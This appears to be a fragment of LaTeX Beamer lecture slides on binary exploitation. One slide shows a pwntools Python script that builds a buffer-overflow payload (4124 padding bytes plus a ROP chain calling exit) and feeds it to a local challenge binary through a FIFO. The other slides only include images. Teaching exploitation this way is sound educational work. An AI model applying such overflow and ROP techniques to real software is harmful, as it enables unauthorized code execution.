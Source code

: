 \begin{frame}[fragile]
  {pwntools again!}

  \begin{lstlisting}[language=python]
from pwn import *  # NOQA
import subprocess

velf = ELF("./pwn")
r = ROP(velf)
r.call("exit", [42])
payload = "A" * 4124 + str(r)

# launch process
vp = process(["./pwn", "./fifo"])
# gdb.attach(vp)
# break *0x8048f4e

with open("./fifo", "w") as f:
    f.write(payload)

# forward stdin/stdout to process stdin/stdout
vp.interactive()
  \end{lstlisting}
\end{frame}


{
\begin{frame}[plain]
  \begin{center}
    \includegraphics[height=0.7\textheight]{./images/pwntools-exp.png}
  \end{center}
\end{frame}


\begin{frame}[plain]
  \begin{center}
    \includegraphics[width=\textwidth]{./images/pwntools-shellcraft.png}
  \end{center}
\end{frame}
}

